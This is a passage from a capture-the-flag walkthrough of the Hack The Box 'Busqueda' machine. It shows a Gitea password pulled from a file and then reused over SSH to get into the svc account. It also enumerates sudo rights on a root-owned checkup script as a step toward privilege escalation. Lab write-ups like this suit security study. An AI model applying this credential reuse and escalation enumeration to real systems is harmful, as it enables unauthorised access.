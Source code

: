 We already know that there is a user `cody`, and the above file looks like it contains `cody`'s credentials for `gitea.searcher.htb`: `cody:jh1usoih2bkjaspwe92`. We can also try using the password to gain SSH access for both users, i.e., `cody` or `svc`, since the latter is a service account and it is highly susceptible to password reuse:

![](gitea_cody.png)

We were able to login as `cody`, but there is not much we can do from here with this low-privileged account. Let's try to SSH:

```bash
# ssh as cody
ssh cody@10.10.11.208
cody@10.10.11.208s password:
Permission denied, please try again.

# ssh as svc
ssh svc@10.10.11.208
svc@10.10.11.208s password:
svc@busqueda:~$
```

First, we can check if the user `svc` can run anything with elevated privileges:

```bash
# check for sudo permissions
svc@busqueda:/$ sudo -l
[sudo] password for svc:
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *

# check file permissions
svc@busqueda:/$ ls -la /opt/scripts/system-checkup.py
-rwx--x--x 1 root root 1903 Dec 24  2022 /opt/scripts/system-checkup.py
```

We can't read or modify the file's content as we have no read (`r`) or write (`w`) access, but we can execute it (`x`):

```bash
# list directory contents
svc@busqueda:/$ ls -la opt/scripts/
total 28
drwxr-xr-x 3 root root 4096 Dec 24  2022 .
drwxr-xr-x 4 root root 4096 Mar  1  2023 ..
-rwx--x--x 1 root root  586 Dec 24  2022 check-ports.py
-rwx--x--x 1 root root  857 Dec 24  2022 full-checkup.sh
drwxr-x--- 8 root root 4096 Apr  3  2023 .git
-rwx--x--x 1 root root 3346 Dec 24  2022 install-flask.sh
-rwx--x--x 1 root root 1903 Dec 24  2022 system-checkup.py

# check directory permissions
svc@busqueda:/$ ls -ld /opt/scripts
drwxr-xr-x 3 root root 4096 Dec 24  2022 /opt/scripts

# execute the script
svc@busqueda:/$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
[sudo] password for svc:
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
```